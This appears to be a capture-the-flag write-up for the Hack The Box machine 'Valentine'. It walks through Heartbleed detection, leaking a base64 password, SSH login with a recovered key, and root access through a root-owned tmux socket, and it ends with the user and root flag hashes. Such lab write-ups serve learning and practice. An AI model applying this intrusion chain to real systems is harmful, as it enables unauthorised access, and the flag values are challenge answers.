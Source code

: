 ```yaml
---
layout: post
title:  "HTB Valentine Linux"
description : Nice box that teaches you how to exploit Hearbleed. tmux for root :)
tags: HBT, hearbleed, tmux, ssh-key, base64
---
```


# Recon
Nmap scan
```ruby
Quick_10.10.10.79.nmap 10.10.10.79
Nmap scan report for 10.10.10.79
Host is up (0.026s latency).
Not shown: 997 closed ports
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
443/tcp open https
```
We find the site is vulnerable to Heartbleed attack
```ruby
| ssl-heartbleed:
| VULNERABLE:
| The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic
software library. It allows for stealing information intended to be protected by SSL/TLS
encryption.
| State: VULNERABLE
| Risk factor: High
| OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of
OpenSSL are affected by the Heartbleed bug. The bug allows for reading memory of systems
protected by the vulnerable OpenSSL versions and could allow for disclosure of otherwise
encrypted confidential information as well as the encryption keys themselves.
```
![](https://lh3.googleusercontent.com/zmFymN9ngiZw13F1XY9w3RSrwiiN4759_zJdmr4xMR3mDKuwxvUKo-jHKZlYeksyMyotfubEee0qranQww4DdcQ-l6NDlpdJKP9HC-Tk5WPJVDRVa7VpPvhVd3qxBq3fXvkgm3_5ykh061aob12901O3GVmmsmszsGb4Yxbh99Q-PDMRk32JIsiup9yjLZ26KvBFAxQ0vPZ8IIBRJpLMaVKPqPXUcPgcgVdrkYAvNW4o-XGEATkYwqWmgVWjM3R2oSbHlha6F4a4nk-r1-odoYyO6bB98VrpFazYnJO6v_7S_IhPHtVXxJRDn_wrmq5h1Hdpqu-MDfYGLMb2YAG1CAQwW8rlEcSWTs_-3crJ4PzcjriwYB5bEoxA0IcDvzr4KUpjorek5sOJZ_J801l5QTTsYzGh14cdcKiUNSvnXRS7FBidVBxATdl2bvMZFhE2IZ-jDvAO9lmqYfjgOkM82rbtBCvVBv7mFnPWOwQZkkKjumXCc5iIXpCk55lbSAggYa0G7DSOYpAVZGPxFTxZIXMmDxXKwQ8JfRr14EhLUn1LGEL2cZ4k9_n-qADQ3cY1hOX6TYwnjox1fqplEhWrfAjDeLlcAZUAtJDtVvHnk4boUEvEzHE8SMIE4cSuFlk0rLchnbUKcDrfj98U44_RLYnVy0Q6sEYSexUwReOYeLgYa_YGrodX5EY=w793-h235-no)

![](https://lh3.googleusercontent.com/LaCWJIbjHyrMw32i8Z7oZM0dK6NNRiPEkR034YvNeG4SkmiA3hx0tXHjY8b5qgBbPKh9Q3JQCDCCqcFZqwbbBUHRVV-CIZdmMW1OXcz0mIb0k8ZA7BN0m8SOr3SlHpMzX24gfQAWk69JDx5e56-9q_qheiC2Mx-_6E0HAphL8TtRb2UC92jnCKnUCprvOaTyFWmcOHmduqPIurQnCQtm0zqe1jYKm-TP1qCeA-m1ylMRCe2mFMVRwMaY1s0gfwH1_3BEnltdQNNRB6Cuela_3TVO27nN9LxktVEvYD5GuL3t26rchuY6agTKsdbBH5VNqlE2DJoQnX9kEKKDKsQxmG8scwMi80cgUtRoG9C_nOQgudzBZmTtgN_UVwTZUaT1u33h35dzxFS1HaUe6onDcgLvljVf7wgLzn2R0MyRjTg8_UsccOltctsHe7AW5RcYVus1jmgIUi91GwWL4p57FVvxLEv9kATTwh5meFe-Y_Y2KTYGmf0u2LFD_hDpl-ngjbuSNvVrtfoZQA0QcMyi6dLd1vp3rti1eS8Um9e6AN2gAJcZJone0PZMdDV3ygOfuAcE7ur4dKgrDR5vvMQrIih4LYgSvm3fIzICgLYUfm1_lAopCU7Ad1q6puthuFCshREFtInp27Bcom3RHl1cxFu92PDSDsjy6SHZ_a0S37sbnBb2fMtxLfI=w426-h437-no)

![](https://lh3.googleusercontent.com/mSM878UXxLXLwjvebSI9nRtuU2-MKn3FXNfoJW2KzwkCboNs1uIdRxHtr3gNM4Kkjwzrvev5klwvdcZp5Roeta51TkBVQIK42VMK7QCbNCCmxt16e-f1F_EGA4KcACEqmhm1fMUTXH8cZR6B9wfjh3efdJsedvnAs0rlBbGJ3NVSRbP5l0FheHIL3XPWjeGCzrjZmdDqPaSF01E9F1G0_qyBkT_TkKESQTdPZrf7LYwOcGsUzwFkKPvRktl7L5GenZ2pSONCHVzOw7r5xMIbD1SPGO0a_G2SxDKLxvptUr3m_pLvMIL-hEDsjf-f2xoIg2uytPlWkPT-KW_OQxZCUxnvwEvPBh30qSuQ4t8RH9PDYk4vNeJwnmSk270BR3IDJexZOCAEMvrzggxVD7D82bqjKTLF2CtPey_76Yfw47-rtFH5NTRRmuz_k24k1fhEMXQFAT3ewRREDL3DLK56UiLuZZn0_ZkPxVYd_bF9VQhMBk0G5-wf-BkFVruKmXPgbfKDdFCNEepxVV_GSX3ybcGzWNlhUqDXWoQcMe0S1l3gXfU-gkyrTu8C-90H3I2tWJQSYVk_jkBS5kOhSXbwCh3toLkQM-s6iQip3T7ZYssGqEU6u9lQ9rR_FB1DkwpA-jE4H6EV3UKrM6IPoVmnsXS76Ilk076EEvhHtyg0CbGie2ou8EbAVeU=w483-h231-no)


We run sslyze just to corroborate
```ruby
CHECKING HOST(S) AVAILABILITY
 -----------------------------
 10.10.10.79:443 => 10.10.10.79:443
 SCAN RESULTS FOR 10.10.10.79:443 - 10.10.10.79:443
 --------------------------------------------------
 * OpenSSL Heartbleed:
 VULNERABLE - Server is vulnerable to Heartbleed
```
![](https://lh3.googleusercontent.com/on928tGbo9hQ_iPsb23yBa_8wJtS8KlWwhAr72N2FiEiCDXd9paW6Wss681KyH35OzRioTsEPwnSLjDPsykp3zgp-w0pQse7vSe4X1jW_-tzNwTFKEiINN28MIAVnDjCpK8VfDacVS_o9xO5exQVtHSkTkhMh22kh8JR9DrDpdKY4sHEjknuDaCBqaZabI94EYKpc45mQhLYCVAofw-SHID-IhhFuzYFEkZ3Gqtix9ChIaHmOI5sOa_m8BFSHVN0z1_7EGB9-CndZVFklcJy2JcpAL8pAXJv1QcCCjlSPnwb371UBkk6MiV6SK_fiW3rhECL7afFnd9r4i6ItnhOm7MkBtiLC2dA2Nmwy54aSeu8i4jm7gKG_mupifWgpqBQQDLCAWu3tV7zNoJbLgmacYgpNk5ic5LpltKi9R59Li3Bi6_4xS2nrUw7-NHuBL0Db0hX-WfWLGNcur6jlWpSz0uWGVtS-y4gvqA__6Cw2QqYx2bQlXCD_VUMGEOfOtxx42DiuQTMXcsmdEPCKXd2H_1TMcDqMkUMOTOvzPiuaQbFDHV-TvRkAn439mV0uj3dxgpcIpcOtH_Pdq9kj1UvcgOB6TKaL0A6RHQ9gA-Pxnfb8j4JKTbf9swRZagymeT4y5JDvhZfBSd64rnxC7PxraiayUHiQphHFPSM6Ze157ZXg9yUiTaanzQ=w448-h510-no)

Dirbuster locates a directory called /dev/ that contain a **hype_key** file
We make use of cyberchef and use the option magic and we get a RSA-AES-128 key
we save it as hype.key format and we will use it later with SSH
![](https://lh3.googleusercontent.com/6EY9ut-yV9D7XkZN26M55XdFyJ_TK9RCvm_HLf9_wPQDgwKBYbUrWx_URsso4MY1G3SXCskcwbutoOLrz2KH_b7zgq9ZYEECCUP7Dep3w-vDMkAbnzW8IWUq7wMgGn7yeai3qeODQ2LtRHl3MaVggDgoaiVNIuNEysbN4q15l4U6N7j93ntbqy56BHh2Cm1i40WsRLcq8RCW83aobcPZtOb3dk_A-xTXb9Hg3apFtQaeVAdV0BWBPOgOsjXCAh8H2EeIZWy1IYwFMTKtEItmS-wRVgMw6vhFs-5BgYdfZY4GiP5B3-F-GyEt8QX9dtOrOhAoCY_4fpK6dpYGw6sURI9SbhhdyoAmVh79EIhgYH4rHq_XGECYztEZ9hxgxmdnmWLz0mVR3zcAAWVxQP90QWgV_MPSR17uas6qa20qGnpi8uqGSwHky97JjCohb0h1APGZ0xFbZWfAgRc3pNPCNeVWVfwCyeyHmoKaI34oEwqqtJAOg6fedfrh0aOeveCaGZWkjOd3MgApNgi331dKU1t5IYXPJIo0hBQR41Spa_nJLgyz-8Iuqz2rotuwDN0lD6bKFODW25wzQwmPEPgwxduxske074wRUh7LKo0-QzAJp-id6v4ujL8cGUTaYAqs9TWizq2nC7HiR80plKzLfgbcRwvHbj5lo33Epn-id67w2CnqRKgBujM=w484-h254-no)

![](https://lh3.googleusercontent.com/2O53OIeGxk16Mhj6frclNjUy-AU33hpdHrRnafIkAO7F1UvBGMePgTPPPrbL6roOmPh-NSGar2H8qT4hH_KB-Pv9qjFQ_rBuZVR8st97vE2M3EQjHqVB2v_s_kisuncTEydaQgL4JPwXeWlG06VD1YlAcatRIMcbUJjQqZXUcTubUdLw0lAuflpZnSIepiL9tsspaR4owdrtKkrcRUGfzvMiReTzyw2tjdVmSj6eXTm-IZ5Aug6lx2qLWYbjBkvfHMDZ5J0KDXIaPdaHb8pbg3xQpgecHFLuolETZqRA3iJFTlmSEu4slymRQeHvG2KmkJe0svdB2ZygxEy7uOx2b1kl6YHviUNBwYSbwE0RQQiG4r7H3pq7LZr_WFfjN5XWwTjPMhFVFPcMw9QSlxyTs2sI0TkknRuUwuxO4SIC2O1kRzkcwBpnMukC_rZF12Cz5y2whIl1b9fPVO8p63LXj48F0PZWWkOoE7AfzrkYofPLHJs_m6tcqVbx7Td6iw5_phe0a15ERLM3pDtjoMXxIFBDHnCGgtVXBCN735TQT1X8FSkSpOE459A5wxDothiByF-BfBwX5lIzKa6YK0zAHBt_ZT1LsT5hsO3K-LdgZxVAF6MXUZr4Upppsd0-B8-oBmzhsifyvu5GcbIq4WNFEjueXacPZyaHoRuaGjy7Zu6WzBcYnD7G1XE=w541-h339-no)

# Exploitation Heartbleed
Since we know the website is vuln to heartbleed we quickly google "heartbleed python github"
We use the script with the target IP and the number of iterations we want the script to run "-n 30"
![](https://lh3.googleusercontent.com/s3jCjJBHBsiej93OZROdRoAcUHlGU117uxc_Kre7To2Q8qKZR_XjIbBzvfnDyXmXKEQi_xMSYOqsYNZdWJBT6tufZCcAuX_uNgxVVKCMq5VDj6CKnXKwS3c2uuU5-qKSh9MwbyJxtPHRNQ1yO1AYfb4U2HfPXLCDZCYscsKKSxoprPzudg5d4Yl9BHjME6p-1C4UMCJsfaM228g29pDIGXUsqlsBMMKN7XRN7Phr14FDnXvIk4jw8-iLo_9IAtUUY4aMmWdSDi2A5P8uVNCw_mLx9nlQKJ_6ZU8kus_Kd3EuHo-Y4UO0vVM1TWMlw1CD64M-F9KqZiBX5iGp344QAtJxis7U8JH5m2ZDxmOspN9u1HVDXzh_49geDR7DQY3Me6hspr0BdxXCh759mBKwpvmB7tjoqGiWPf0AkwWx0ba_acqJVXeU4TeYnJQY33tw0Q8b39s35XRgwAwm6fCoJoA6_p7FGGwd_HMeFSYvbL7KcqgeS_50-smr5FNyExXNkZOs76_cnrtdYGwXqJoM3dXiMm3CV4_cHb3Kg_mLQoAXT0Uli-81gl06JyMqUyxkJSbx7ZkGSVJpUQzHzQkUyTh7aPsjB8kQOBhYwZi9JUB-IKhh18QoiZyjEcmfzXwBD9p4ecx-64NwyZmPmyABXajggutATkrlJCOb1adzEfD8AV0-SNrTePA=w735-h347-no)

![](https://lh3.googleusercontent.com/8jFVQkT-KZwzwoEyHKTpSMppDt32SvQrPdPZw8B7bDKgTioVt0Rz8vAC0v-HAc9LyTZNHUg740Lqw1mk7sPORmRBLTr0_etaSB1y0-UTL-PSEJS6DPEyzxkEr_8H865Js7-odLNdKfDgjzZeqkRej_5mRTnQt9Az9EbU7pd0dEe9M_Ta8jr5kNAYyyQKmMHukv69HStYLMYsSaMwrdSHUEq9MQQgEn6E3dFFsGOrQYLlav--iSbjfF0PkIcJYqmKmRprBquGUpg0vfWHnK0pNYvfjy_jCko7d-SLPFAwFTt7YomDtjdt3yQ-TH1INFEplNv9vKHensSRGH7Cg-BSqDBYLpZV993TcmvHX93BpYeiAZ2x8vIfFtFNEU7R698rufXE05l4RfCq1DyX3fGHz-dtfph_mo2FNiReVL3kE_Be65c0aTkHGzA0AFvBE18udblgmaSyN-2caKAH96AnZRVlwLATCwAN55IluG2A3W0XG0StreuBDjsIFP7oTS41xMkYZUV_OwNz9qmz4iMh3QOQ1gSvD1CLZSM5FdOHLpqF64L1ugQ6QEHjew5qqNZuioYfa7fRlEOnkvYPOXsq75M5zV7PUgs6DIvLSVkPEq_E7jOgHDPZsiSI-lmjkQ7t6FO5a29ML1sNw1a9g497WNtcbBjHwUrEanmRKt_8xmykYjwl6XX9ovs=w596-h98-no)

![](https://lh3.googleusercontent.com/WxKoKPZjfWy0wLlj0SJli0Wr7wX14aeWbINmFQdhtv1TGJatOIUXan7oDpbTpqSOLx0zAotzk9pm48neQ6QS82l1Bf5fYfKISnaNoW5r9YnlW0-ijXt_jQxp1Prb6EL1JGXrXyOvO697stgjwDCZs3E_O2T6hm8DThg56gfnvXMfcN7WxTt_kjkiL-E_lXvUpnu9l4lMJLCGWX4K-8I6-nU0AoVxjU8kXj1ki-bR1fIisWvKWdQGIo16GNfze62at6Ai8oDa6OoyfX_i-2D6iXcY_yUQQDZ_akJ61DEEHgBmDbA2qLd4DSor8yBRfaP5ScErsgrEmFRd_x1CbTGv-IC3lfeXT-wCQKLi2guOU5-4RmFcfEU7ap2jbztpftnl5aoLBzZBPFHl6K_aKEYe3_De-ZE44pe_EcD-7fGnEa86Tx91OcKzVzZOp63pn5zh8xmanhcan_32I0xg-_rs0XSU5r0u_wcRxh8OOc0cyd9pHjVGqBNnfy_TcPREefUIfjkKRnPsRjF5b--1Ijk702KTEVYG0KcYYoBCiL171D6oUmnQ3zLkF9SjKY0ylyI7C3qH7IrgS8h-tNrCvaoN6nJFpNJll9dBvWzRNlvvev89YW-mpjIAaVUr9tYqwsfp49GJi2uWSIACQRBTM78cZJJ_XH-QfyOGKGerT6trV7dBoBriA0Ybwn8=w720-h220-no)

After reviewing the ouptput we quickly notice a base64 string that repeats a lot so we copied and decode to get a passwd.
```ruby
aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==
```
```ruby
heartbleedbelievethehype
```
![](https://lh3.googleusercontent.com/nfUekhGwRa-yMXRuPV-kdyrMNRQ2d9ld2oXybBcYnAqmvdzmpC_Jns1rYxk0xvdaEdRHvB_N7B6Galrl-QdwZqI7S4jSj0jpofc0XnVAe3rPlw-bagGstsZCkTlKUjvS2ZfFPLD1P7bND0WmXr4s1OOBga8XRVzBMK0JdSyTvnJqqmIl0Oi0gL5lqWdswTYx6d7XMF9i7rLfPmJod5rpwKFboJkIYn8ZcBS-IprHCegpbJw5NLjpJ4JN5jNZoPLi73CAQSkwNgJwzxpux1-kxwcwDzi3izRhNf_tPNI0O4zSC817QS1KOrCz2CmiLxAvuuVUXbxrq8HJI8MWKgjMDXt7IqmgxVelf-RFR9a204DIWF3izOQPBVJ4EW5SnVGWr2OvhvmEGecRrHkRKSFyKDd_oTOQGYDW49ZfkujAfOFv1VJjJU1T1hpF-NctqczQ9eNAzLJsoSY8cYfzxqPv_uvPvz8T9qz9uPhAbhlItY7TnFWp16pcYdEFzUIHO-M5n1OL3Ncrwy14I3JSw0U9WuyFBsTMG25-kpYJ-iSBD9rfm27XBLUndpJ5Io3RWvRROlrDAZ97b74tPh7DDYR-PAiyo-UvjBXwLIyuA6uvy8EZbuTtaSAf8Ihc3rYV0pFIzT3oaQ7eomb1SDWp5BbFzfxpEgIuCTfa2icfrKVHn4aSzBCxWWmBxrg=w793-h82-no)

At this point is pretty clear that our path to exploitation is through SSH as we have a ssh key file and a password to use
We proceed to ssh into as user hype
```chmod 600 hype.key
ssh -i hype.key hype@10.10.10.79
```
- NOTE:for some reason doing a 755 on hype.key I would get a warning message that was stopping
from login.

![](https://lh3.googleusercontent.com/_zKt2aRvMs2KHDFLESfBlCCoACOGFOPDvB-3R0a2PH6Eu8QHmBA07YuTIHKYvbKLrRv3dt4uBDaeqYc5pa2jVpuszSU0A-LxjDj2sfREogdMAn5Yo7E0VVROvqO9heKOdzKJgAzGklV-aVm_5vhiaENMy18tpHd02-sgzuEcwegJFi7bavSqSV1XtXmUZDUXg3Id_-mTd1vmwOdOiRLmZfO_BLh_yTd0rLT9H6aSNZWSOjqInSikze3T25Q1p8zXJSJ8Ulw8AZhyTrVbtAFmIAZX4VADhcFsSprYtGOfBtlOerRj-MJZ1oTQn-QIPZmFgIA7v_2EiOO8X96o7d5iiBwCdNtVeG9KEev9XOVrEKTNSD5EVFcHSQZItB4v_XYBL6AMDSLefYlIJpYd7AwjGwK81-pjwG_CDaA94A5LaddlsicGos0uPSp8KjW_vSam-Exsw-Awp7LPdzIpPx6LVZ7J7cc8j6knC1G-QJlTSz0heSuWYFVvxkaiEJBOhFUBYJF-c85jKJG267kC7QObkTr6SbweMGhPH8Hep__q4Dn-rGagr4vBug47EpOhJIAbZqhBLKq1gpU_MBZ6rQj44hVilAGkeUwE6z_HxlFf0zSdT4QL92cYKwxFPmEL6QzykH3o9j4DybFRfE0lX09P3nvW2rLUo-llNceaDdyDUlZzs2DOlcs_TYE=w688-h269-no)


# Privelege Escalation
We cat the bash_history file and we find the following:
![](https://lh3.googleusercontent.com/g74xJ8auQLCd5RNZUhBtlpxKVAFbGRIJDQTiGlXXRGX-tawHKllm64d7JygPmM7NhyItTR9MTzMqBSsFd5CVDG9oaMFtDewYc-uLeMSkLXDOK61LzSXcPzNTUlJW2jCXQ8naBB9ZrGDMSqvTRCOQtGVlnneIHGWQrluVe_rfanJ71pWtm_NEhX8T0hf0Bz9LOC0tUd-vRAa5e7cA7dILikjQOTVa39rZr7D_VtJ67a85QmFBuV9cMYTO38QOYyq_r7riifW-_9VbRy5B0bFcjCzdpmHy-6c706HUccNrw_pX7HwJ-STwEvVRy7yA53PX_n5CITDF4lu7he1d0fd_Je9Vcr-KlSUslJZxBSIbVPMdxeCpgZM_Oe7SJXdWn0SA9JY69YmntaZKxhmPzUTHgc9jI540rdvbKTyniWpD9-u_bLtsu4FX66j7kUufaYqI2Tbl8VJQebhkwMZZ0S6CJnczel8yi6R_dKiicmCSuideze3ZivYybwFRUQWn4Oik0lQdM-1koo9xUgVBw9nVclgFI_Nphnqbd6Cj1rYPj0y6k6I7-wNrQ3HEKCT4Bi84JpWE2DL90ezrzcX5RDLxhQjYqelQ6IhHqYc7RvgQsvz37I1masnVx3mBSUdtuBpOcGXwUgMohXovPbUe8To8gxfufa4xGcBV4zI_HtLH5TWfuggEfWGwnUA=w474-h499-no)

```ruby
exit
exot
exit
ls -la
cd /
ls -la
cd .devs
ls -la
tmux -L dev_sess
tmux a -t dev_sess
tmux --help
tmux -S /.devs/dev_sess
```
![](https://lh3.googleusercontent.com/HsB74dfmfsAkYWSjYcLmkJrZtfJhGmoxBsft6e1mfm4pRMtEcxXG157uNdSrUbucUpGWsf6LkCLF_O77R1L9Pvmu5n3tG2iXmyL5eBZdwZ0YfFFaXjUfC9G_Wb5Tz-EhnpIuuXWhmoq9QcAy8r_dmt37A4k4V8YmTrIYlKEBl6sSSp5cVh32w2KXutL_C2aBkk7x09lofdIRU6mrXwQrRynaQcCEYnMMJD-BWLcju0vuDktQEcbbFuddQbHlwH9zjDI88kAXQVq2xJqShGXqvyd5RV5eNLyDuJ0XZ6cvWMJttRd0h21qSwcdmBeUAvnrB2-clMV3_8YDwFqSDoSRXtgpWbeJcQYduGoRKebzPZ8tEt2TpLOYTIcBP5HsppTPiXrz-W8kHzV_GOMWZ5R-QWXsdeH1nmxEWggHfDSCIs4zurcuAfeBBrOidKbVE4lw49XK6cWoHYhPLMMMhvMxQF2LjtIsL1K0WA8-Angao8__Tpwvja-ylZptyIc2wGg6L3ZR1Do5-bEotbZ2V74rPcuvesXGdPLwe50oAWtQdO2muLM7jdfBBNvKQKAJhTq6WKDBCI4SGu07fpNtFDTvzkjDMmz_zGcPd6SvX1NLgr75dn872arnJj1aZY1idvkNdaB8G7RmSgicWuzGmmvFjcHtUIjDAe6LIquW6QlrPmLuc8XQ5HOB5d0=w373-h288-no)

There is a shell program called tmux owned by root
![](https://lh3.googleusercontent.com/_-pII3b9bRxHkssehk6PzNKUoJ4Enj6jyjF0xeXuwH5vsALwA7lu7EJxh2teQeZNJQGDfA_Sw5G2YQXaG4NTxDf9z_0cn19VysMGcLcn0eZzcW935F2kQIkrmfDy7EDdj4f3F62awHstD1FTC0WkGL5zpRsmGFROCc7dlss5jlzBfpnF1MGNLnklrGTbPvaxIqIduN-1V3j0bmfNruk4skpAUNJ8UB4c9EOUthc-pwq90bn0aL7FmBv0xTgTwteIUtzqlHL3wkEruBlIlWjZIsCF1HYu3RXCWuhF22_4LAWQrqTDspjR41he0UWSkmg9oLlTJci7C4Kz3Ncsh9WKkFtHQxHmsCDWXgDunTLLwVM6o61PVpSKMFS9fYhtG4QpKsZhXBSMqxcPqwoZ9_sjbU7OAeyh5cbhtG4Okqk6nqSe6Gc_GxcxuHtYPjlpFPtVaL6pZcBPx-iDWlR0HhuUv3aPt6b_FsnSBwr0H9um5ZoPo4jo_jx3FuvvA8fwfXVMFyWpM9wmPQ-UyHbl0c9JUb2rBoe15b61Drk9l-DVzbef0OELji-3njiFT2BZZWVe464K7gQpxA9oZGMC5CotQb_BqsLTEirGTgXI6lZ2RGKyfsC6inZyjS9XilcyACTGMWYtKDDvNDdZmARqHqjlDsO5tVph60Qn-9I7CoDKXKFBlfohhtz5Ypk=w452-h168-no)

![](https://lh3.googleusercontent.com/jSFuNXsX5Gk05kASsjWyweYJmZP9aX9yftT_ROiK38cq1mUWtFWiYIO5FjeKB-bbLRm8Ts6Q5Fo8hc5HCWri5atTmX65Zpq_ypLdfuTlihZL6X4ksG1cHg1fJKFJ4AgESf9JqFv_9-Owl0LlndpoQeLnqfeQ3Q3nvk4JN-2SK1-iviSN1k5IvJtH5VD7idm2inGEQ0opelH6jiaJWF5uRMw1iEOMGe47v1b3nBDWwd3KwYLF82F0zwFGsxLC5g9xiytpCEwX9hFtvJ6hugyt3IdqZt-dHLr9X5BKI72ts06OHfL2qfVB5t58n9dOyxvtF130IQhkBOFEWwM3RxrjuANmU3TS5zyVgfxwApQBQxMEGt50XcpqSPiTGFekW2DfaDEniQ-OUGV_mLhI0fNUFTpavpq_h6vmb9NAkddIvjYgfIjJ5LlUtucGEZct9uh6pL_Zq1bgpUNkL-vdDyVEyQPRWP2cVThIan1aqhXx8aTTrL-80v0ysp9raMbDeNADyN6UcqEhrRa2udN--PWlQqnqHppsEwmKmeQLN7I0wRZMMZ9GDVJuCPouPZiLBRwh460wmzyqv4JIVknnoLpsrVkgdAFd9Td0z6QXKIQe_43HiB4fZh9J-fvPncPt6xA5krriO7Avu--HeWtbyPid3DteQJnyxfjFol_Q8WKGbiU7Mv7ukkZ4lzQ=w1019-h369-no)

but with group permission set with "hype" to which we are part of it so we execute
```ruby
tmux -S /.devs/dev_sess
```
and we get ROOT!
![](https://lh3.googleusercontent.com/QPcaMLnjx8V7Ohlv1Fa8yjC6D_dKDeZIP95_0Z-YHeuPu-AHtAPS3j3fd5K1wFsGaKWQS7w5FycYy3V0NCFIKqr9-16F_emAVyjTyWu1gbiXDXXIs5lvp1mCwbyTR1kc2TVvWeozyMWvfkSVD0K22hLh15K3cjMKsfjMFDyOhqwE_JHPDylGhqc5Fvj8XGShx-nvMlJUFAHm3z49YAwlfL0_FZniLFJ9XRZSeG1qt4uKqdY4JTGMAhdCvDCOXquVU_fwOgN4p3Fw_ozCcPUnmNcX63oceZyHA-jg2ovcK5w--HSmWwMltE2d_F7Ply6IjGgJQJKgNl61Hv_iFYz_Ed2tAQnYnkChbQJQWizsjtmn7emKKDZUh9RAD6owXkcnF-iKsnJ7cGuA0XFfcLdhqJWvsle87M9xyWrtbx5VP_Wv44TY-qzSWhdH36acF2AMHWS0KKlYAsFeGQ1Vn4qpOJqDonVIZAFbFCj3I84om37WLEwj4WnJ0EWeNFokeQexN5Eu3YM9nIDu62K-IjZp4mJ9IaPPTaPVXGpVz-RXnH6-_uGCjsz53xnYkxWGRSrkptgayIeZwYQnbkFPg5DjkLjHTHIbIxhA7XLWTm56B_kJ4CYP8BtwDK_k02RXfAw8TMZrULZHKteO6NMvcPCiqRpzQhf6hXCyLEmvKNHXhInmdsdp3DK_keY=w406-h117-no)

```ruby
USER  "e6710a5464769fd5fcd216e076961750" 
ROOT  "f1bb6d759df1f272914ebbc9ed7765b2" 
```
